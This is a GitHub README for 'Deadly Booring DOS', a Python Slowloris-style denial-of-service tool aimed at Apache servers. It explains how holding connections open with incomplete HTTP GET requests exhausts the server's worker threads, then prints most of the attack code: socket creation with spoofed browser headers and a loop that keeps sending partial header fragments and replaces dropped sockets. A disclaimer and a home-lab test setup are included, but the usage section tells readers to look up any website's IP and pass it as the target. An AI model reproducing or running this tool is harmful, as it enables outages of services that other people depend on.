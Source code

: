 # Deadly Booring DOS

Denial of Service attacks do not always have to flood the server with requests to make him shut down. Deadly Booring DOS takes a much more elegant appraoch: Instead sending as much data as possible, we send as little data as we can.
DeadlyBooring is a free interpretation of SlowLoris DOS.

## Disclaimer:

### This tool is made for Educational purpose only. Don't use it for ILLEGAL Activities. You are responsible for your Actions.


### *Preface*

Deadly Booring DOS was purely written for educational researches. I am going to explain how you can set up a simple appache website on one of your old machines that you can use to test DeadlyBooring. Never run such an attack against IP addresses that are not under your control. Never abuse the script to harm anybody. You got your own responsibility.

# The Idea

DeadlyBoorig DOS looks at DOS attacks from a different perspective. To understand how it works, we first need to understand internet protocols in general. What our browser is doing when we enter *<http://www.github.com>* is sending a HTTP GET Request to the IP address of the github servers (which is *192.30.253.113*, by the way) to the port 80, which is usually used to serve HTTP Requests. Such a HTTP GET request may say *"Please give me the /joelbarmettlerUZH/DeadlyBooring_DOS site"*, to which the github servers will respond with the corresponding HTML file.

## HTTP GET Requests
---

The normal usage of such GET requests is to just type an URL into your browser, which then asks the DNS server to convert github.com into an IP and formulates the right GET request for all the content that needs to be displayed, such as images and scripts. The browser asks for data - the server responds - done.

The interesting thing is that such HTTP GET requests follow a well defined schema: They start with the content the browser is asking for, followed by the used Protocol *(HTTP/1.1)*, ended with two line-break characters \n\n. As long as the server does not retreive these two newline characters, he is waiting for more data to come, thinking the browser has a temporary internet loss or simply a slow connection. Eventually, when the server does not hear anything from the browser for a bunch of seconds, he drops the connection to the browser again. This is quiet a normal behaviour.

## Apache Servers
---

DeadlyBooring DOS is now making use of this server behaviours: Most of the internet servers (arround 50%) run on apache, an open source HTTP Server Project. Appache is built in a way that the server opens a new Thread for every user that is requesting content, answering his requests until it is done. A small server only has a limited amount of such threads he can have opened simultaniously - meaning he can only serve a limited amount of users at once. Normally, this is no problem at all, since small websites rarely have several hundret users that want to make a request to the werbserver in the same second. What DeadlyBooring DOS does is opening up connections to all threads on the appache webserver and making an unfinished HTTP GET Request every few seconds, which makes the thread wait for more data and therefore prevents the webserver from closing the connection. This means that we pretend to be several hundret users with a deadly slow internet connection, making the whole server wait for data to come, but we will never finish sending our incomplete requests every few seconds.

While the server has all its threads dedicated to our script, the webserver will not answer any other GET requests from other users, since he is busy waiting for our nonsense data. Meanwhile, our computer barely needs any computing power since all we do is sending several hundrets tiny small data packages to a server every second - which is by no means a task you would even recognize running in your background.

# The Code

The code is fairly simple and just under 50 lines. First, we create the DeadlyBooring class and provide it with information about to what IP we would like to lead our attack to, as well as the Port (80 is the standard port for webserver) and the number of parallel connections that we want to establish. Lastly, we fake some HTTP GET header information to make our requests plausible to the server.

```python
class DeadlyBooring():
    def __init__(self, ip, port=80, socketsCount = 200):
        self._ip = ip
        self._port = port
        self._headers = [
            "User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.5) Gecko/20091102 Firefox/3.5.5 (.NET CLR 3.5.30729)",
            "Accept-Language: en-us,en;q=0.5"
        ]
```

## Create sockets
---

Next, we want to create our sockets. We define a method that connects a new websocket with the dedicated protocol types to the IP and Port that we specified. We send him a first GET request and the HTTP header information. Some error handling ensures that an error would not lead the DOS to stop but would just try creating a new socket instead.

```python
    def newSocket(self):
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(4)
            s.connect((self._ip, self._port))
            s.send(self.getMessage("Get /?"))
            for header in self._headers:
                s.send(bytes(bytes("{}\r\n".format(header).encode("utf-8"))))
            return s
        except socket.error as se:
            print("Error: "+str(se))
            time.sleep(0.5)
            return self.newSocket()
```

Now we just have to create a list with a few hundrets of such sockets that we can then use for our DOS attack.

```python
self._sockets = [self.newSocket() for _ in range(socketsCount)]
```

## Attack-method
---

Now let's finally write the attack method. It is actually really simple: For all sockets, we send a get request with the *X-a* header field, keeping the request open and making the server wait for the rest of the data. After each sent request, we wait vor a short period of time before sending the next one, with making sure that every socket sends data at least once every couple of seconds so that the connection is not lost. Every lost socket is immediatelly replaced with a new one taking its place, guaranteeing that free server threads are populated again.

```python
    def attack(self, timeout=sys.maxsize, sleep=15):
        t, i = time.time(), 0
        while(time.time() - t < timeout):
            for s in self._sockets:
                try:
                    print("Sending request #{}".format(str(i)))
                    s.send(self.getMessage("X-a: "))
                    i += 1
                except socket.error:
                    self._sockets.remove(s)
                    self._sockets.append(self.newSocket())
                time.sleep(sleep/len(self._sockets))
```

# Testing

In order to test our code, we need to create a protected environment, since we can not just start a DOS attack on some server that we do not own. As a simple option, you can use some old hardware and run [wamp](http://www.wampserver.com/en/) on it. Install and run WAMPServer on your second device and test the connection by visiting [localhost:80](localhost:80), which should give you the default wamp interface, indicating that your server is running. If you want to go fancy, create a simple HTML file in the *www* directory where you installed whamp. Now open the command promt on your second device and run

```sh
ipconfig
```

which will give you your local IP-Address (lets assume here that the devices IP is 192.168.0.33). Test the connection to your second device via typing "192.168.0.33:80" into your browser, letting you directly access the webpage you created on your second device. If you see nothing, make sure both devices are connected to the same router, your WAMP is running and no firewall is blocking the access. Otherwise, make sure that in the WAMP httpd_config file, you set the restrictions to LOCAL (google for further instructions). If it works, try calling DeadlyBooring on the same IP on Port 80. Refresh your page and you will see that you will get no response from the server (note that the website may be cashed, so you will sill see the page).

## Usage
---

In order to run  `DeadlyBooringDOS.py`

Write the command as:

```
python3 DeadlyBooringDOS.py <target_ip>
```

To get ip address of any website, just open a `terminal` and type:

 ``` 
 ping website.com
```

You will get the website ip, just copy it and paste it.


VirusZzWarning ♥ 
